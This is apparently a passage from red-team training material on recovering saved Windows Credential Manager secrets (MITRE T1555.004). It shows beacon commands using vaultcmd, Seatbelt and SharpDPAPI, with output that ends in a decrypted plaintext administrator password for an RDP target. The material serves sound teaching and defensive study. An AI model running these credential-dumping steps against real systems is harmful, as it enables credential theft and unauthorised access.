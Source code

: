 The Windows Credential Manager stores other credentials that the user has asked Windows to save, such as those for Remote Desktop connections.  An adversary may decrypt these credentials to recover the plaintext credentials [T1555.004](https://attack.mitre.org/techniques/T1555/004/)

The native `vaultcmd` utility will show the presence of any saved credentials.
```powershell
beacon> run vaultcmd /listcreds:"Windows Credentials" /all

Credentials in vault: Windows Credentials

Credential schema: Windows Domain Password Credential
Resource: Domain:target=TERMSRV/10.10.120.10
Identity: Administrator
Hidden: No
Roaming: No
Property (schema element id,value): (100,2)
```

As too will Seatbelt's `WindowsVault` command.

```powershell
beacon> execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe WindowsVault

====== WindowsVault ======

  Vault GUID     : 4bf4c442-9b8a-41a0-b380-dd4a704ddb28
  Vault Type     : Web Credentials
  Item count     : 0

  Vault GUID     : 77bc582b-f0a6-4e15-4e80-61736b6f3b29
  Vault Type     : Windows Credentials
  Item count     : 1
      SchemaGuid   : 3e0e35be-1b77-43e7-b873-aed901b6275b
      Resource     : String: Domain:target=TERMSRV/lon-ws-1
      Identity     : String: LON-WS-1\Administrator
      PackageSid   : (null)
      Credential   : 
      LastModified : 14/02/2025 14:02:28
```

The way these credential blobs are encrypted is a little convoluted.  They're encrypted using randomly-generated AES key, which are themselves encrypted using the user's master DPAPI key.  To decrypt them manually, you have to find which master key was used, decrypt it using DPAPI, and then use the decrypted key to decrypt the credential blob.

Luckily, tools like SharpDPAPI automate that process.

```powershell
beacon> execute-assembly C:\Tools\SharpDPAPI\SharpDPAPI\bin\Release\SharpDPAPI.exe credentials /rpc

Folder       : C:\Users\pchilds\AppData\Local\Microsoft\Credentials\

  CredFile           : 9CAEEF854B7702E986B47C751DFE9AD2

    guidMasterKey    : {120b3a8a-683d-4db8-8f13-e4c466949bd2}
    size             : 396
    flags            : 0x20000000 (CRYPTPROTECT_SYSTEM)
    algHash/algCrypt : 32772 (CALG_SHA) / 26115 (CALG_3DES)
    description      : Local Credential Data
    LastWritten      : 14/02/2025 14:02:28
    TargetName       : Domain:target=TERMSRV/lon-ws-1
    TargetAlias      :
    Comment          :
    UserName         : LON-WS-1\Administrator
    Credential       : Passw0rd!
```